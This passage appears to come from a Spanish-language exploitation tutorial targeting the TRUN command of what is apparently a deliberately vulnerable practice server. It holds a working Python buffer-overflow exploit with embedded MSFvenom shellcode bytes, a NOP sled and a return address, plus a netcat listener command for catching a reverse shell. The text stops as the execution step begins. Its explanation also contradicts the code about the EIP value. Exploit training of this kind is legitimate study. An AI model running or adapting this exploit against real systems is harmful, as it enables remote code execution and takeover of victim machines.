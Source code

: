 ```python
"\x97\x27\x70\x82\x4e\xac\x7e\x6f\x04\xea\x62\x6e\xc9\x81"
"\x9f\xfb\xec\x45\x16\xbf\xca\x41\x72\x1b\x72\xd0\xde\xca"
"\x8b\x02\x81\xb3\x29\x49\x2c\xa7\x43\x10\x39\x04\x6e\xaa"
"\xb9\x02\xf9\xd9\x8b\x8d\x51\x75\xa0\x46\x7c\x82\xc7\x7c"
"\x38\x1c\x36\x7f\x39\x35\xfd\x2b\x69\x2d\xd4\x53\xe2\xad"
"\xd9\x81\xa5\xfd\x75\x7a\x06\xad\x35\x2a\xee\xa7\xb9\x15"
"\x0e\xc8\x13\x3e\xa5\x33\xf4\x81\x92\x3b\x0f\x6a\xe1\x3b"
"\x1e\x36\x6c\xdd\x4a\xd6\x38\x76\xe3\x4f\x61\x0c\x92\x90"
"\xbf\x69\x94\x1b\x4c\x8e\x5b\xec\x39\x9c\x0c\x1c\x74\xfe"
"\x9b\x23\xa2\x96\x40\xb1\x29\x66\x0e\xaa\xe5\x31\x47\x1c"
"\xfc\xd7\x75\x07\x56\xc5\x87\xd1\x91\x4d\x5c\x22\x1f\x4c"
"\x11\x1e\x3b\x5e\xef\x9f\x07\x0a\xbf\xc9\xd1\xe4\x79\xa0"
"\x93\x5e\xd0\x1f\x7a\x36\xa5\x53\xbd\x40\xaa\xb9\x4b\xac"
"\x1b\x14\x0a\xd3\x94\xf0\x9a\xac\xc8\x60\x64\x67\x49\x80"
"\x87\xad\xa4\x29\x1e\x24\x05\x34\xa1\x93\x4a\x41\x22\x11"
"\x33\xb6\x3a\x50\x36\xf2\xfc\x89\x4a\x6b\x69\xad\xf9\x8c"
"\xb8")

shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
ip_address ='reemplazar por la ip del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

### Explicación del Script

* **NOP Sled (\x90)**: Se ha añadido un NOP sled de 32 bytes. El código 0x90 es la instrucción NOP (No Operation), que simplemente crea un "colchón" en el que el shellcode puede caer de manera segura y ejecutarse sin interrupciones.
* **Sobrescribir el EIP**: El EIP sigue sobrescrito con el valor 0x42424242 (representado por las letras "B"), pero esta vez se apunta a una dirección en la memoria que ejecutará el shellcode.
* **Shellcode**: El shellcode generado por MSFvenom se inserta al final del buffer, después del NOP sled, listo para ser ejecutado cuando se tome el control del flujo del programa.

### Configuración de Netcat para Escuchar la Conexión

Antes de ejecutar el script, se debe configurar Netcat en la máquina atacante para que escuche en el puerto designado (4444 en este caso):

```bash
nc -lvnp 4444
```

Esto permitirá capturar la conexión inversa desde la máquina víctima.

### Ejecución del Ataque
